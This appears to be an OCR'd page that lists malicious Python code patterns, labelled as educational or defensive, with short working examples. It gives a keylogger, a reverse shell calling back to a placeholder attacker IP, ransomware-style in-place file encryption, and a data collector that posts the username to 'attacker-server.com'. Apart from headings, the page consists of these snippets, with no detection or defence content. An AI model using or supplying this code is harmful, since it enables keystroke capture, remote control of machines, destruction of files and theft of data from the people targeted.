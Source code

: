 Here are some of the most frequently seen types of malicious Python code patterns and examples (provided for educational/defensive purposes):

1. Keyloggers
```python
# Basic keylogger example
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(str(key))

listener = keyboard.Listener(on_press=on_press)
listener.start()
``` 

2. Reverse Shells
```python
# Basic reverse shell
import socket
import subprocess

s = socket.socket()
s.connect(("attacker_ip", port))
while True:
    cmd = s.recv(1024).decode()
    output = subprocess.getoutput(cmd)
    s.send(output.encode())
```

3. Ransomware-like File Encryption
```python
# Simple file encryption
from cryptography.fernet import Fernet
import os

key = Fernet.generate_key()
cipher = Fernet(key)

def encrypt_file(file_path):
    with open(file_path, 'rb') as file:
        file_data = file.read()
    encrypted_data = cipher.encrypt(file_data)
    with open(file_path, 'wb') as file:
        file.write(encrypted_data)
```

4. Data Exfiltration
```python
# Basic data collector
import os
import requests

def collect_data():
    sensitive_data = {}
    # Collect system info
    sensitive_data['username'] = os.getenv('USERNAME')
    # Send to attacker server
    requests.post('http://attacker-server.com', json=sensitive_data)
```
